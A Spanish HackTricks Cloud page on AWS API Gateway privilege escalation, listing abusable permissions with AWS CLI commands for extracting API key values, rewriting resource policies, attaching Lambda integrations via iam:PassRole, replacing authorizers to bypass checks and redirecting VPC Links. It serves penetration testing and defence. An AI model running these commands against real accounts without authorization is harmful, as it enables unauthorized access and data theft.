 # AWS - Apigateway Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos.
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Apigateway

Para obtener más información, consulte:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Con este permiso, puede generar claves de API de las API configuradas (por región).

```bash
aws --region <region> apigateway create-api-key
```

**Impacto potencial:** No puede escalar privilegios con esta técnica, pero puede obtener acceso a información confidencial.

### `apigateway:GET`

Con este permiso, puede obtener las claves de API generadas de las API configuradas (por región).

```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```

**Impacto potencial:** No puede escalar privilegios con esta técnica, pero puede obtener acceso a información confidencial.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Con estos permisos, es posible modificar la política de recursos de una API para darse acceso a sí mismo para llamarla y abusar del posible acceso que pueda tener la API Gateway (como invocar una lambda vulnerable).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
    --rest-api-id api-id \
    --patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impacto potencial:** Por lo general, no podrá escalar privilegios directamente con esta técnica, pero puede obtener acceso a información confidencial.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Necesita ser probado
{% endhint %}

Un atacante con los permisos `apigateway:PutIntegration`, `apigateway:CreateDeployment` e `iam:PassRole` puede **agregar una nueva integración a una API Gateway REST API existente con una función Lambda que tenga un rol IAM adjunto**. El atacante puede luego **disparar la función Lambda para ejecutar código arbitrario y potencialmente obtener acceso a los recursos asociados con el rol IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Agregar una nueva integración a la API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Crear una implementación para la API Gateway REST API actualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto potencial**: Acceso a los recursos asociados con el rol IAM de la función Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Necesita ser probado
{% endhint %}

Un atacante con los permisos `apigateway:UpdateAuthorizer` y `apigateway:CreateDeployment` puede **modificar un autorizador existente de API Gateway** para omitir las comprobaciones de seguridad o para ejecutar código arbitrario cuando se realizan solicitudes de API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Actualizar el autorizador de API Gateway
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Crear una implementación para la API Gateway REST API actualizada
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impacto potencial**: Omitir las comprobaciones de seguridad, acceso no autorizado a los recursos de la API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Necesita ser probado
{% endhint %}

Un atacante con el permiso `apigateway:UpdateVpcLink` puede **modificar un VPC Link existente para que apunte a un Network Load Balancer diferente, redirigiendo potencialmente el tráfico de API privado a recursos no autorizados o maliciosos**.

```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Actualizar el VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```

**Impacto potencial**: Acceso no autorizado a los recursos de API privados, interceptación o interrupción del tráfico de API. 

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos.
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>